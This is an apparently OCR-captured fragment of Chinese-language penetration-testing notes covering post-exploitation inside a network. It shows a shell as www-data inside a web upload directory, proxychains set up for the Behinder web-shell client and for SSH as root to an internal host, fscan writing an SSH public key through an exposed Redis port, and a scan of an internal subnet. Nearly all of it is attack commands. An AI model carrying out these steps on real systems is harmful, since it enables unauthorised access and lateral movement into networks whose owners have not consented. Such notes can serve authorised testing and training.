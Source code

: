 ```bash
(www-data:/var/www/html/upload/img) $ ipaddr
/bin/sh: 1: ipaddr: not found
(www-data:/var/www/html/upload/img) $ cat /etc/hosts
127.0.0.1    localhost
::1    localhost ip6-localhost ip6-loopback
fe00::0    ip6-localnet
ff00::0    ip6-mcastprefix
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
172.16.166.54    488311575fdd
```

# 网络代理

Linux代理

```bash
vim /etc/proxychains4.conf
socks5 127.0.0.1 1080
```
 
Linux 下冰蝎代理提交

```bash
proxychains java -jar Behinder.jar
```

代理连接服务器

```bash
proxychains ssh root@172.16.166.142
```

生成SSH密钥


```bash
ssh-keygen
```

fscan 写入公钥

```bash
./fscan -h 172.16.166.142 -p 6379 -rf /tmp/id_ed25519.pub
```


# 上传 fscan 扫描内网服务

```bash
chmod +x ./fscan
./fscan -h 10.10.20.1/24
```


# 扫描出结果后绘制网络拓扑图
